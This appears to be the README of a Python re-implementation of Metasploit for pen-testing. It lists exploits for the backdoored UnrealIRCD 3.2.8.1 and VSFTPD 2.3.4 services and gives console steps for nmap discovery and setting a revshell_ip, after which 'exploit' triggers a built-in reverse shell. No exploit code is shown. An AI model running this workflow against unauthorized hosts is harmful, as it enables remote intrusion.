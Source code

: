 # Python's Metasploit concept

The Metasploit Framework is a tool used to design and execute exploits and attacks with the help of a ton of modules in an oriented offensive security approach. This is a must-use tool in pen-testing activities and it's very versatile due to its many features.

The idea of implementing this tool is to figure out a way of removing all the complexity of the framework without needing to learn Ruby (the official language of the Metasploit framework).

The `msf` folder has two modules: the `exploits` and the `libs`. These contain all the functionality of this script.

The exploits included are:

1. The `UnrealIRCD 3.2.8.1 Backdoor Command Execution` for IRC servers
2. The `VSFTPD v2.3.4 Backdoor Command Execution` for vulnerable Linux FTP services

As for the `libs`, you have a base class for exploit definitions and behavior, and a discover class that integrates the `python-nmap` package (check `requirements.txt`) for `nmap` internal use.

The

## Requirements

You will need a Python3 virtualenv ready to go

Then, install the `requirements.txt` like this: `pip install -r requirements.txt`

## How to use it?

Run: `python metasploit.py`

1. Discover feature

```
> set target [IP]
> set ports [PORT RANGE]
> discover
```

2. Write results

```
> write_results [/path/to/file.json]
```

3. Shell

```
> shell ls
> shell pwd
```

4. Modules (possible options)

```
> module list
> module use [Vsftpd or Unrealircd]
> set revshell_ip [IP]
> get
> unset ports
> check
> exploit
```

This automatically will trigger the built-in reverse shell

## Credits
[David Lares S](https://davidlares.com)

## License
[MIT](https://opensource.org/licenses/MIT)

